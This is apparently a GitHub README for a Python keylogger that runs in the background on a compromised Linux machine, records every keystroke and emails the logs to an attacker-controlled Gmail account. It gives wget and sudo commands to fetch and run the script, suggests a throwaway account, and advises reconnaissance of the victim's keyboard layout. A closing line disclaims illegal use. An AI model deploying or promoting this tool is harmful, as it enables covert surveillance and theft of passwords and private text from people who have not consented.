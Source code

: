 # Keylogger
Test keylogger, trash quality right now

## Description
Want a terrible keylogger? Look no further!

This keylogger runs in the background and copies all the keystrokes a user inputs. After an interval, it then emails these keystrokes to the gmail given.

The logger is heavily based on the logger written by [x4nth055](https://github.com/x4nth055). 

I added the ability to feed in an email address and password, rather than hardcode it in, the ability to feed in how long you want the script to report back to you, as well as an experimental attempt to report special chracter key strokes.

### Prerequisites

This logger has been built on a number of assumptions:
* You've can run sudo on a comprimised linux system
* You have access to Gmail, and have turned on 'less secure app access' in your security settings

You'll need to install the following pip3 modules, if you don't already have them:
```bash
pip3 install keyboard
pip3 install argparse
```
### Installation
```bash
wget https://raw.githubusercontent.com/Purp1eW0lf/Keylogger/main/logger.py
```
### Usage
This logger requires you to feed your gmail email and password. I would create a throwaway account for this. 

You can also optionally feed the script the length of time you want it to wait and send you an email of the keystrokes. The default waiting period is 60 seconds, should you chooe not to input length (the -l flag)

```bash
sudo python3 logger.py -e gmail@Address -p Password -l 120
```

#### Google Security
##### Make sure this option is selected in your Gmail Security
![Google Security](https://github.com/Purp1eW0lf/Keylogger/blob/main/images/Google%20Security.jpg)

#### Help Image
![Help Image](https://github.com/Purp1eW0lf/Keylogger/blob/main/images/HELP.jpg)

#### Usage Image
![Usage image](https://github.com/Purp1eW0lf/Keylogger/blob/main/images/Example%20Use.jpg)

#### Email Report Image
![Email report](https://github.com/Purp1eW0lf/Keylogger/blob/main/images/Logged%20Email.jpg)


## Known Issues
Sometimes the emails don't send at the regular interval, but will come in batch and you'll get a handful at once
* Fix: I'm not clever enough to figure out why yet.

The script tries to tranpose special characters by examining is the user presses the SHIFT key and a corresponding number. This is majorly flawed, however, as it is entirely keyboard dependent. It is therefore trash. The current script is based on a Macbook keyboard. 
* Fix: If you're able to do some recon on the user's keyboard, you can change the section mid-script and reassign the key values for better accuracy. 

### Contact

If you notice a way the script can be improved you're welcome to make requests and raise issues. 
You're also welcome to slide in my Twitter DMs and tell me how shit the logger is.
[@Purp1eW0lf](https://twitter.com/Purp1eW0lf)

#### License
This tool is free to use. Do not use for illegal purposes. Only use for academic purposes, on computers that you have permission to access. 
